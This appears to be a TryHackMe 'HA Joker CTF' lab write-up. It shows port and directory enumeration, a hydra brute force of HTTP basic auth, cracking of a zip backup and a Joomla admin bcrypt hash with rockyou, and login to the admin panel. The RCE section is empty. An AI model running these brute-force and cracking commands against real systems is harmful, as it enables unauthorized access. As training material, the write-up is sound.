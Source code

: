 # HA Joker CTF



Room link: https://tryhackme.com/room/jokerctf

## Enumeration 

Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29
```


ffuf

```
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97]
phpinfo.php             [Status: 200, Size: 94858, Words: 4706, Lines: 1160]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
```

secret.txt

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

http://10.10.68.63/phpinfo.php

## port 8080 (Brute Force)

basic auth brute force with the user name Joker

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.68.63 http-get / -f -V 

[8080][http-get] host: 10.10.68.63   login: joker   password: hannah
```

enum the new web directorys

```bash
ffuf -u "http://10.10.68.63:8080//FUZZ" -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -c   -mc all  -fc 404,403,301 -e .html,.txt,.php,.zip -H "Authorization: Basic am9rZXI6aGFubmFo"

backup                  [Status: 200, Size: 12133560, Words: 0, Lines: 0]
backup.zip              [Status: 200, Size: 12133560, Words: 0, Lines: 0]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33]
robots                  [Status: 200, Size: 836, Words: 88, Lines: 33]
configuration.php       [Status: 200, Size: 0, Words: 1, Lines: 1]
htaccess                [Status: 200, Size: 3005, Words: 438, Lines: 81]
htaccess.txt            [Status: 200, Size: 3005, Words: 438, Lines: 81]
                        [Status: 200, Size: 10925, Words: 776, Lines: 218]
```


Download the backup file and crack the password

```
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup                                                    1 ⨯
possible pw found: hannah ()
```                              

# Crack admin password from backup joomla.sql file. 

![image](https://user-images.githubusercontent.com/5285547/134673619-e5b03ea5-058f-4322-9ec5-4d618df18930.png)


```
echo "$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 

abcd1234         (?)
```

![image](https://user-images.githubusercontent.com/5285547/134673748-95bd57b8-85f5-41af-b36b-f402003514c5.png)

```
http://10.10.226.12:8080/administrator/

admin:abcd1234
```

![image](https://user-images.githubusercontent.com/5285547/134674632-7791fc10-dd90-44b0-8f65-d56b0aed1d71.png)

![image](https://user-images.githubusercontent.com/5285547/134674659-80cbb047-fada-4820-9ff4-b1edbd4e5291.png)

## RCE




